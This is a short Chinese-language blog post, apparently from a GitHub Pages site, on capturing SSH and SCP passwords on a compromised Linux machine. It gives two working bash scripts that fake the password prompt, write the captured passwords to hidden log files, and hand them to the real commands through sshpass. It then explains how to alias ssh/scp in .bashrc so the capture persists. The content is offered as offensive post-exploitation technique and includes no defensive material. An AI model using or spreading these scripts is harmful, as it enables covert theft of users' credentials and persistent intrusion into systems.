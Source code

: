```yaml
---

layout: default

---
```




# Linux抓取SSH/SCP密码

## 0x01总体思路

​	大体思路是基于Linux的alias别名特性，通过创建ssh/scp的别名修改系统的ssh/scp命令指向自定义的恶意脚本，当用户在执行ssh/scp命令时实际执行的是指定的恶意脚本，脚本将中提示用户输入密码并保存本地，然后再调用系统中正常的ssh/scp命令完成用户指令。（抓密码思路源于klion知识星的分享）

## 0x02 SSH密码抓取

​	先给出脚本：

```shell
#!/bin/bash 
if [ $# != "1" ]		#判断是否只有一个参数 
then
	/usr/bin/ssh 
else
	echo -e "${1}'s password: \c" 
	read -s pass echo $1":"$pass >> /tmp/.log 
	echo "" 
	sshpass -p "$pass" /usr/bin/ssh ${1} 
fi
```

​	脚本中首先判断用户输入的参数是否为1个，其实此处还可以加多一层判断，看用户输入的是否是 `user@ip` 的格式，防止用户输入错误地参数脚本同样提示输入密码。根据用户的参数伪造ssh的回显，提示用户输入密码，并记录保存到本地/tmp/.log文件中。最后因为正常调用ssh命令时需要交互式输入密码，所以利用sshpass工具来将密码发送给ssh命令，从而正常执行ssh功能



## 0x03 SCP密码抓取

​	脚本：

```shell
#! /bin/bash
str="@"
for var in $*
do
        if [[ $var == *$str* ]];then
                arr=(${var//:/ })
                echo -e "${arr[0]}'s password: \c"
                read -s pass
                echo $pass >> /root/.log
                echo ""
        fi
done
sshpass -p "$pass" /usr/bin/scp ${*}
```

​	抓取scp密码原理与ssh的是一样的，只是脚本相对来说复杂一点点，因为scp的参数多且位置不固定，所以需要判断`user@ip`参数出现在第几个参数，然后根据该参数的内容来伪造正常的scp输入密码提示。

## 0x04 具体操作

1. 首先需要在目标机器上安装 `sshpass`工具，可以使用 `yum/apt-get`等包管理工具安装也可以下载源码编译安装。

 	2. 修改目标机器 alias , 比如 `alias ssh=/root/.scp`。可以在.bashrc文件中添加实现持久化抓取。
 	3. 将脚本放到指定的位置。

​	

